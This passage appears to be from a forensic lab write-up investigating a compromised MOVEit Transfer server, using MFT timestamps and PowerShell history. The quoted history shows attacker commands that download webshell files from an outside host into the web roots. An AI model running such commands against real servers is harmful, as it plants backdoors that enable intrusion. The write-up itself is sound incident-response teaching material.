 #### move.aspx

`move.aspx` is in `C:\MOVEitTransfer\wwwroot`:

![image-20231116164133949](/img/image-20231116164133949.png)

It was created at 11:24:30, with a size of 0x578 = 1400 bytes.

The same can be observer in the CSV. I’ll use `cut` to get the file path and name and timestamps:

```

oxdf@hacky$ cat 20231116221516_MFTECmd_\$MFT_Output.csv | cut -d, -f 6-9,20-27 | grep move.aspx
.\MOVEitTransfer\wwwroot,move.aspx,.aspx,1400,2023-07-12 11:24:30.4297594,,2023-07-12 11:24:30.4610703,2023-07-12 11:24:30.4297594,2023-07-12 11:24:30.4610703,2023-07-12 11:24:30.4297594,2023-07-12 11:24:30.4610703,2023-07-12 11:24:30.4297594
.\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\9a11d1d0\5debd404,move.aspx.cdcab7d2.compiled,.compiled,294,2023-07-12 11:24:43.3828834,,2023-07-12 11:24:43.3828834,,2023-07-12 11:24:43.3828834,,2023-07-12 11:24:43.3828834,

```

It’s interesting that I find a second file with `move.aspx` in it. This one, `move.aspx.cdcab7d2.compiled` is where .NET is caching the compiled ASPX file when it’s used. I’ll note that the timestamp here of 11:24:43 matches the IIS logs for when the actor first ties to interact with the webshell.

## PowerShell History

### Locate

There are Powershell history files in both the Administrator and moveitsvs user’s `AppData` directories:

```

oxdf@hacky$ find . -name ConsoleHost_history.txt
Triage/uploads/auto/C%3A/Users/moveitsvc.WIN-LR8T2EF8VHM.002/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
Triage/uploads/auto/C%3A/Users/Administrator/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt

```

### Data

The administrator’s history only has a single command, `netstat`. The moveitsvc user’s history seems to have captured some of the commands run by the attacker:

```

cd C:\inetpub\wwwroot
wget http://10.255.254.3:9001/moveit.asp
dir
wget http://10.255.254.3:9001/moveit.asp -OutFile moveit.asp
dir
cd C:\MOVEitTransfer\wwwroot
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx

```
